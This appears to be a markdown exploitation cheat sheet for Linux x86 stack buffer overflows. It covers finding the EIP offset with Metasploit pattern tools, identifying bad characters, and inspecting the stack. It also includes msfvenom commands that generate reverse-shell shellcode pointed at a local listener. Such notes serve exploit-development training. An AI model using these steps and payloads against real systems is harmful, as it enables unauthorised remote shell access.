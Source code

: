 # buffer overflow Linux x86

## Take control EIP

- Get rough estimate offset
```shell
$(python -c 'print("A" * 1000)')
```

- Create pattern
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1200
```

- Calculate offset
```shell
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x69423569
```

- Verify offset
```shell
$(python -c 'print("A" * 1000 + "B" * 4)')
```

## Determine length shellcode

- Generate shellcode using `msfvenom`

```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c
```

## Identification bad characters

- `CHARS` string below.
```shell
CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
```shell
echo $CHARS | sed 's/\\x/ /g' | wc -w
```

- Start inspecting bad characters. The 265 is the length of `$CHARS` at this time.

```shell
$(python -c 'print("A" * (1000 - 265) + "\x00\x01...\xff" + "B" * 4)')
```

- Use the following command to inspect the stack

```shell
x/2000xb $esp+500
```

## Generating shellcode

Consider
- Architecture (e.g. `x86`)
- Platform (e.g. linux)
- Bad characters

Generate shellcode using `msfvenom`
```shell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 --platform linux --arch x86 --format c --bad-chars "\x00\x09\x0a\x20" --out shellcode
```

## Identification return address

- Get a memory address where our NOPs are located to tell the EIP to jump to it.
- This memory address must not contain any of the bad characters we found earlier.
- Pass the address to the input backwards when using little Endian

